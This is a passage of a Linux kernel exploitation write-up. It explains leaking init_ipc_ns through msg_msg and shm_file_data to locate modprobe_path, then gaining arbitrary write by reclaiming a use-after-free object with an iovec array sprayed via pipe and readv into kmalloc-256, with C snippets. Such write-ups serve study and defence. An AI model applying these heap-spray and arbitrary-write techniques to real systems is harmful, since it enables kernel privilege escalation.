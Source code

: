 ![[notes/images/2.png]]

Now from the received message from `msgrcv` we can retrieve the `init_ipc_ns` pointer from `shm_file_data` and we can deduce the `modprobe_path` address calculating its offset and proceed with the arbitrary write phase.

## Arbitrary Write
In order to write at arbitrary locations we are using the same userfault technique described above but instead of targeting `msg_msg` we will use the Vectored I/O (`pipe` + `iovec`) primitive. This primitive has been fixed in kernel 4.13 with [copyin](https://elixir.bootlin.com/linux/v4.13.1/source/lib/iov_iter.c#L142) and [copyout](https://elixir.bootlin.com/linux/v4.13.1/source/lib/iov_iter.c#L133) wrappers, with an `access_ok` addition. This technique has been widely used exploiting the Android Binder CVE-2019-2215 and is well detailed [here](https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html) and [here](https://cloudfuzz.github.io/android-kernel-exploitation/chapters/exploitation.html#leaking-task-struct-pointer).

The idea is to trigger the UAF once again but targeting the [iovec](https://elixir.bootlin.com/linux/v4.9.223/source/include/uapi/linux/uio.h#L16) struct:

```C
struct iovec
{
	void __user *iov_base;	/* BSD uses caddr_t (1003.1g requires void *) */
	__kernel_size_t iov_len; /* Must be size_t (1003.1g) */
};
```

The [minimun allocation](https://elixir.bootlin.com/linux/v4.9.223/source/fs/read_write.c#L792) for `iovec` occurs with `sizeof(struct iovec) * 9` or `16 * 9` (144) that will land at `kmalloc-192` (otherwise it is stored in the stack). However I choose to allocate 13 vectors using `readv` to make the object land in `kmalloc-256`.
```C
    int pipefd[2];
    pipe(pipefd)
    // [...]
    struct iovec iov_read_buffers[13] = {0};
    char read_buffer0[0x100];
    memset(read_buffer0, 0x52, 0x100);
    iov_read_buffers[0].iov_base = read_buffer0;
    iov_read_buffers[0].iov_len= 0x10;
    iov_read_buffers[1].iov_base = read_buffer0;
    iov_read_buffers[1].iov_len= 0x10;
    iov_read_buffers[8].iov_base = read_buffer0;
    iov_read_buffers[8].iov_len= 0x10;
    iov_read_buffers[12].iov_base = read_buffer0;
    iov_read_buffers[12].iov_len= 0x10;

    if(!fork()){
        ssize_t readv_res = readv(pipefd[0], iov_read_buffers, 13); // 13 * 16 = 208 => kmalloc-256
        exit(0);
    }
```
